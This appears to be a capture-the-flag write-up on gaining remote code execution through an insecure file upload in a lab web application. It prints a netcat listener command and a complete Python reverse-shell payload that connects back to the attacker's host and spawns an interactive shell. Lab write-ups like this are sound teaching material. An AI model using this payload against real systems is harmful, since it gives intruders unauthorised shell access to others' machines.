


Target: http://10.81.182.23:5000/



The application allows us to send messages or upload files (normally photos). No additional endpoints were discovered through enumeration. Given the file upload functionality, this strongly suggests a potential Remote Code Execution (RCE) vector.


On the attack box, start a netcat listener on our attackbox (I used port 1234, any unsed port will do):

```
nc -nvlp 1234
```

```
Listening on 0.0.0.0 1234
```


I used a simple Python reverse shell payload:
More from https://www.invicti.com/learn/reverse-shell

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.81.118.26",1234));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```


Saved it as rce.py and uploaded it through the web application.


Step 3 – Receive Shell

Once the file is executed on the target, our listener receives a connection:


At this point we have an interactive shell on the target machine.

From there, we enumerate directories and navigate through the filesystem until locating the flag.



Attack Type: Remote Code Execution (RCE) via insecure file upload leading to reverse shell access.
